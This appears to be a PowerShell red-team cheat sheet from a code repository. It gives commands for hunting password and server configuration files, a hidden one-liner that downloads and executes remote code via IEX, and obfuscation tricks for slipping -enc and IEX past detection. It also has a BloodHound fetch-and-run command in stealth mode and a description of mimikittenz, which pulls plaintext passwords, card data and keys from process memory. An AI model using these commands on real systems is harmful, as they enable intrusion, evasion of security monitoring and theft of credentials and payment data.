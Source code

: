 ### Find-Files (custom)

    Find-Files -searchBase "i:" -searchTerms "*web.xml*,*web.config*,*password*,*tomcat-users.xml*" -LogPath "C:UsersusernameAppDataLocalTemp"

### Get-Enumeration (custom)

Run Local and Domain enumeration functions on the local host.

    Get-Enumeration -Path . -Local -Domain

### Download and execute IEX

    powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')"

### EncodedCommand and IEX detection bypass

Author: Dave Kennedy  
Source: https://www.trustedsec.com/blog/circumventing-encodedcommand-detection-powershell/

Avoid detection of -enc

    powershell -window hidden -C "set-variable -name "C" -value "-"; set-variable -name "s" -value "e"; set-variable -name "q" -value "c"; set-variable -name "P" -value ((get-variable C).value.toString()+(get-variable s).value.toString()+(get-variable q).value.toString()) ; powershell (get-variable P).value.toString() "

Avoid detection of IEX

    powershell -window hidden -C "set-variable -name "LB" -value "I"; set-variable -name "I" -value "E"; set-variable -name "V" -value "X"; set-variable -name "wP" -value ((get-variable LB).value.toString()+(get-variable I).value.toString()+(get-variable V).value.toString()) ; powershell (get-variable wP).value.toString() ('')"

### Bloodhound

    iex((new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1'));Invoke-Bloodhound -CSVFolder c:temp -CSVPrefix

    Invoke-BloodHound -DomainController -Domain -CSVFolder C:userspubliclibraries -CSVPrefix -CollectionMethod Stealth

### Mimikittenz

https://github.com/putterpanda/mimikittenz

mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.

mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns including but not limited to:

* TRACK2 (CreditCard) data from merchant/POS processes
* PII data
* Encryption Keys & All the other goodstuff
